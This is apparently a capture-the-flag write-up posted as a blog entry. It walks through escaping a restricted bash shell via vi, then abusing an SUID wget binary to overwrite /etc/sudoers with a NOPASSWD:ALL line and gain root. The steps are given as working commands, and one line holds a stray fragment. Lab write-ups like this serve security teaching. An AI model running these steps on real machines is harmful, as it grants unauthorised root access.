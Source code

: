 ```yaml
---
layout: post
title: "PrivEsc abusing WGET SUID"
date: 2020-04-04 00:22:00 -0000
categories: jekyll
permalink: /ctflive/wgetsuid
tags: [privesc, wget, SUID]

---
```


https://www.ctf.live/challengedetails?cid=21
##### escape restricted shell
`fesal@rbash_attackdefense:~$`
~~~~
:set shell=/bin/bash
:shell
export PATH=.bin:/usr/bin/
echo $PATH
~~~~
##### use wget SUID to transfer file to /etc/sudoers
~~~~
cd /tmp
vi sudoers
:i[enter] - to edit file
fesal ALL=(ALL) NOPASSWD:ALL
:wq - - to save exit file
~~~~
~~~~
python -m SimpleHTTPServer 8009 & -O /etc/sudoers ~~[why need '&' - to use terminal and simpleServer works in bg]~~
export URL=http://127.0.0.1:8009/sudoers
export LFILE=/etc/sudoers
wget $URL -O $LFILE
sudo -i 
~~~~
`root@rbash_attackdefense:~$`
